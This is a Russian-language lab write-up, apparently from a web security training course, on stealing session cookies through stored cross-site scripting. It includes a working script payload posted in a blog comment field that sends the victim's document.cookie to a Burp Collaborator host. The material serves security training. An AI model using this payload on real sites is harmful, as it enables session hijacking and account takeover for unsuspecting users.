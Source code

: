 # Exploiting cross-site scripting to steal cookies

## Theory

<h3>Использование межсайтового скриптинга для кражи файлов cookie</h3>

Кража файлов cookie — это традиционный способ использования XSS. Большинство веб-приложений используют файлы cookie для обработки сеансов. Вы можете использовать уязвимости межсайтового скриптинга, чтобы отправлять файлы cookie жертвы в свой собственный домен, а затем вручную вставлять файлы cookie в браузер и выдавать себя за жертву.

На практике этот подход имеет ряд существенных ограничений:
* Жертва может не войти в систему
* Многие приложения скрывают свои файлы cookie от JavaScript, используя флаг HttpOnly
* Сеансы могут быть заблокированы для дополнительных факторов, таких как IP-адрес пользователя
* Время сеанса может истечь, прежде чем вы сможете его перехватить.

## Writeup

Главная страница:

![](./assets/1.png)

Перейдем к посту и спустимся в низ страницы. Мы можем заметить поле для комментария.

![](./assets/2.png)

Запустим Burp Collaborator Client и скопируем DNS.

![](./assets/3.png)

Запишем в поле комментария наш эксплоит, вставив скопированный ранее DNS. Код эксплоита:
```
<script>
fetch('https://0ghj9u6w3z0rm7ezz40rp8iplgr8fx.burpcollaborator.net', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

![](./assets/4.png)

Проверим Burl Collaborator Client. Там мы модем обнаружить cookie.

![](./assets/5.png)

Получаем ответ от сервера.

![](./assets/6.png)